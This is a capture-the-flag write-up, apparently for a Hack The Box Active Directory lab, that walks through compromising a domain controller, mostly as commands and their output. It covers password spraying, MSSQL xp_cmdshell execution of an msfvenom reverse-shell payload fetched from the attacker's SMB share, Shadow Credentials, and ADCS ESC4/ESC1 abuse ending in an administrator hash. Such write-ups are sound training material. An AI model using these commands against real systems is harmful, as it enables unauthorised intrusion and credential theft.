

# Attack Chain

```
rose : KxEPkKe6R8su (creds fournies)
└─► SMB — share "Accounting Department" → accounts.xlsx (magic bytes altérés)
	└─► réparation xlsx (0x48 → 0x4B) → credentials en clair
		└─► password spray → oscar (SMB) + sa (MSSQL, sysadmin)
			└─► MSSQL sa → xp_cmdshell → reverse shell → sql_svc
				└─► sql-Configuration.INI → password sql_svc
					└─► password reuse (spray) → ryan → WinRM → user flag
						└─► WriteOwner → ca_svc → GenericAll → Shadow Credentials
							└─► ADCS ESC4 → -write-default-configuration → ESC1
								└─► ESC1 → certipy auth → NT hash administrator
									└─► WinRM administrator → root flag
```

# Summary

- [Enumeration](#enumeration)
	- [nmap](#nmap)
	- [Bloodhound](#bloodhound)
	- [SMB](#smb)
- [Repair Excel File](#repair-excel-file)
- [Password spraying](#password-spraying)
- [MSSQL](#mssql)
	- [xp_cmdshell](#xp_cmdshell)
	- [Reverse shell](#reverse-shell)
- [Lateral Movement](#lateral-movement)
	- [Password inside sql configuration file](#password-inside-sql-configuration-file)
	- [New Password Spraying](#new-password-spraying)
- [Privilege Escalation](#privilege-escalation)
	- [Compromising ca_svc](#compromising-ca_svc)
	- [ADCS](#adcs)
	- [ESC4](#esc4)
	- [ESC1](#esc1)

---

As is common in real life Windows pentests, you will start this box with credentials for the following account: `rose` / `KxEPkKe6R8su`
# Enumeration
### nmap 

```
nmap -sVC -Pn 10.129.232.128 -oA nmap

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-08 14:11:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2026-07-08T14:12:51+00:00; 0s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2026-07-08T14:12:51+00:00; 0s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.232.128:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.232.128:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-07-08T13:58:16
|_Not valid after:  2056-07-08T13:58:16
|_ssl-date: 2026-07-08T14:12:51+00:00; 0s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-07-08T14:12:51+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-07-08T14:12:51+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

> [!NOTE]
> **Observations**
> - Target is an Active Directory
> - The domain is `sequel.htb`
> - FQDN is `DC01.sequel.htb`
> - MSSQL present

```
echo '10.129.232.128 DC01 DC01.sequel.htb sequel.htb' | tee -a /etc/hosts
```

### Bloodhound

Since we are given a user, we can collect data for **Bloodhound**.

```
bloodhound.py -c all --zip -d 'sequel.htb' -u 'rose' -p 'KxEPkKe6R8su' -ns '10.129.232.128'
```

Unfortunately, nothing can be exploited with `rose`.

### SMB

We can list the shares on the target to check if there are uncommon ones.

```
nxc smb dc01 -u rose -p KxEPkKe6R8su --shares
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.128  445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.232.128  445    DC01             [*] Enumerated shares
SMB         10.129.232.128  445    DC01             Share           Permissions     Remark
SMB         10.129.232.128  445    DC01             -----           -----------     ------
SMB         10.129.232.128  445    DC01             Accounting Department READ            
SMB         10.129.232.128  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.128  445    DC01             C$                              Default share
SMB         10.129.232.128  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.128  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.232.128  445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.232.128  445    DC01             Users           READ           
```

There is `Accounting Department` that looks interesting.

We can find 2 files inside which we can download to our machine.

```
smbclient -U rose "//10.129.232.128/Accounting Department"
Password for [WORKGROUP\rose]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 06:52:21 2024
  ..                                  D        0  Sun Jun  9 06:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 06:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 06:52:07 2024

smb: \> mget *
```

# Repair Excel File

When opening the file, it looks corrupted.



Using the command `file` shows that it is identified as a ZIP archive, while it's not.

```
file accounts.xlsx 
accounts.xlsx: Zip archive data, made by v2.0, extract using at least v2.0, last modified Jun 09 2024 10:47:44, uncompressed size 681, method=deflate
```

By inspecting the magic bytes of the file, we notice the following.

```
xxd accounts.xlsx | head -1
00000000: 5048 0403 1400 0808 0800 f655 c958 0000  PH.........U.X..
```

It has been altered on purpose since the magic bytes for `.xlsx` file should be `50 4B 03 04 ` 

After editing them with `hexedit`, the file has been repaired and we are able to access the file.

```
file accounts.xlsx 
accounts.xlsx: Microsoft Excel 2007+
```


We can find several credentials inside.

# Password spraying

Let's make a user list and a password list to check which ones are valid.

**users.txt**
```
angela
oscar
kevin
sa
```

**pass.txt**
```
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
MSSQLP@ssw0rd!
```

Then we can spray the credentials using `NetExec` and check which ones are valid.

```
nxc smb DC01 -u users.txt -p pass.txt --no-bruteforce --continue-on-success

SMB         10.129.*.*  445    DC01        [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
<SNIP>
SMB         10.129.*.*  445    DC01        [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
<SNIP>
```

> [!TIP]
> **Valid Credentials obtained**
> `oscar` : `86LxLBMgEWaKUnBG`

We also have credentials for MSSQL, let's check if they are valid.

```
nxc mssql DC01 -u users.txt -p pass.txt --no-bruteforce --continue-on-success --local

MSSQL       10.129.*.*  1433   DC01        [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb) (EncryptionReq:False)
<SNIP>

MSSQL       10.129.*.*  1433   DC01        [+] DC01\sa:MSSQLP@ssw0rd! (admin)
```

The account is admin on the MSSQL instance.

# MSSQL

Let's connect over MSSQL with `mssqlclient.py`.

```
mssqlclient.py "sequel.htb"/"sa":'MSSQLP@ssw0rd!'@"DC01"
Impacket (Exegol fork) v0.14.0.dev0+20260120.113623.b52b6449 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

### xp_cmdshell

Since we are admin, we are able to enable `xp_cmdshell` which will allow us to run commands on the target system.

```
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```

### Reverse shell

Now, in order to gain a reverse shell on the target, we can create a reverse shell payload using `msfvenom`.

```
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=tun0 LPORT=6767 -f exe > shell.exe
```

And we run a fake SMB server on our machine.

```
smbserver.py -smb2support EXEGOL . -username hacked -password hacked
Impacket (Exegol fork) v0.14.0.dev0+20260120.113623.b52b6449 - Copyright Fortra, LLC and its affiliated companies
```

Going back to the MSSQL instance, we mount our SMB share on the target.

```
SQL (sa  dbo@master)> EXEC xp_cmdshell "net use z: \\10.10.16.254\EXEGOL /user:hacked hacked"
output
-----------------------------------
The command completed successfully.
NULL
NULL
```

And we execute our payload.

```
SQL (sa  dbo@master)> EXEC xp_cmdshell "\\10.10.16.254\EXEGOL\shell.exe"
```

We should now get a connection back on our listener.

```
penelope -i tun0 -p 6767

PS C:\Windows\system32> whoami
sequel\sql_svc
```


# Lateral Movement

### Password inside sql configuration file

Enumerating the target system, we can find the password of `sql_svc` inside a configuration file.

```
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

Let's check if the password is valid.

```
nxc smb DC01 -u 'sql_svc' -p 'WqSZAF6CysDQbGb3'
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.128  445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3
```

### New Password Spraying
However, we still haven't compromised a user that will allow us to escalate our privileges. One thing to try is to retrieve every user of the domain and perform a password spraying to see if there is password reuse.

We can retrieve a user list with `NetExec`.

```
nxc smb DC01 -u 'sql_svc' -p 'WqSZAF6CysDQbGb3' --users-export userlist.txt
```

And we perform our password spraying attack with our newly found password.

```
nxc smb DC01 -u userlist.txt -p 'WqSZAF6CysDQbGb3' --no-bruteforce --continue-on-success
SMB         10.129.*.*  445    DC01         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)

<SNIP>
SMB         10.129.*.*  445    DC01         [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
<SNIP>
```

`ryan` uses the same password ! We can also connect over WinRM.

```
evil-winrm -u ryan -p 'WqSZAF6CysDQbGb3' -i DC01

*Evil-WinRM* PS C:\Users\ryan\Documents>
```

We can get the user flag from here under `C:\Users\ryan\Desktop`.

# Privilege Escalation

Going back on our **Bloodhound** graph, we notice that `ryan` has `WriteOwner` on the service account `ca_svc`, which can be abused to set our compromised user as the owner of the service account, and then add `GenericAll` right over it, in order to either change its password or perform a **ShadowCredentials** attack.

 
### Compromising ca_svc 

First we set `ryan` as the owner of `ca_svc`.

```
bloodyAD -H 'DC01' -d 'sequel.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner ca_svc ryan
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
```

It worked as expected. We can now add `GenericAll` on the service account.

```
bloodyAD -H 'DC01' -d 'sequel.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' add genericall ca_svc ryan
[+] ryan has now GenericAll on ca_svc
```

And we can finally retrieve its NT hash when performing **Shadow Credentials**.
I chose this way because in a real assessment we can't just change a service account's password since it could likely break something in their internal network.

```
bloodyAD -H 'DC01' -d 'sequel.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' add shadowCredentials ca_svc
[+] KeyCredential generated with following sha256 of RSA key: e78f02eb549f57fe8d04cda9f97da6cd05a67c9462cb3ef1badd03dc372ef84d
[+] TGT stored in ccache file ca_svc_XL.ccache

NT: 3b181b914e7a9d5508ea1e20bc2b7fce
```

### ADCS

The newly compromised account suggests that ADCS might be in place.

Let's look at the templates and see if we can find any vulnerabilities.

```
certipy find -enabled -u "ca_svc@sequel.htb" -hashes "3b181b914e7a9d5508ea1e20bc2b7fce" -dc-host DC01 -stdout

<SNIP>

 11
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireCommonName
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-07-09T09:51:28+00:00
    Template Last Modified              : 2026-07-09T09:51:28+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

Here we find that the template `DunderMifflinAuthentication` is vulnerable to [ESC4](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc4-template-hijacking).
It means we have the right to modify this template since we are a member of the group **Cert Publishers**, so we can alter its configuration and turn it into a vulnerable template.

### ESC4

To perform the attack, we can add the flag `-write-default-configuration` which will turn the tempalte into a vulnerable ESC1 template.

```
certipy template \
    -u 'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' \
    -dc-host 'DC01' -template 'DunderMifflinAuthentication' \
    -write-default-configuration
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The resolution lifetime expired after 5.402 seconds: Server Do53:192.168.65.7@53 answered The DNS operation timed out.; Server Do53:192.168.65.7@53 answered The DNS operation timed out.; Server Do53:192.168.65.7@53 answered The DNS operation timed out.
[!] Use -debug to print a stacktrace
[*] Saving current configuration to 'DunderMifflinAuthentication.json'
[*] Wrote current configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'
```

We can check if the template is now vulnerable to ESC1.

```
certipy find -enabled -u "ca_svc@sequel.htb" -hashes "3b181b914e7a9d5508ea1e20bc2b7fce" -dc-host DC01 -stdout

11
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-07-09T09:57:27+00:00
    Template Last Modified              : 2026-07-09T09:58:15+00:00
    Permissions
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Authenticated Users
        Write Owner Principals          : SEQUEL.HTB\Authenticated Users
        Write Dacl Principals           : SEQUEL.HTB\Authenticated Users
    [+] User Enrollable Principals      : SEQUEL.HTB\Authenticated Users
    [+] User ACL Principals             : SEQUEL.HTB\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
```

It is the case.

### ESC1

Now we can perform an [ESC1](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc1-enrollee-supplied-subject-for-client-authentication) attack by requesting a certificate for another user, including a privileged one such as `administrator`.

We can find its SID in **Bloodhound**.

```
certipy req \
    -u 'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' \
    -dc-ip '10.129.232.128' -target 'DC01.sequel.htb' \
    -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' \
    -upn 'administrator@sequel.htb' -sid 'S-1-5-21-548670397-972687484-3496335370-500'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 11
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate object SID is 'S-1-5-21-548670397-972687484-3496335370-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Now that we have a certificate for `administrator`, we can authenticate with it and retrieve its NT hash along with a valid TGT.

```
certipy auth -pfx administrator.pfx -dc-ip 10.129.232.128
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*]     SAN URL SID: 'S-1-5-21-548670397-972687484-3496335370-500'
[*]     Security Extension SID: 'S-1-5-21-548670397-972687484-3496335370-500'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

And we can connect on the target over WinRM.

```
evil-winrm -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff' -i DC01

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

> [!TIP]
> **Machine Rooted**


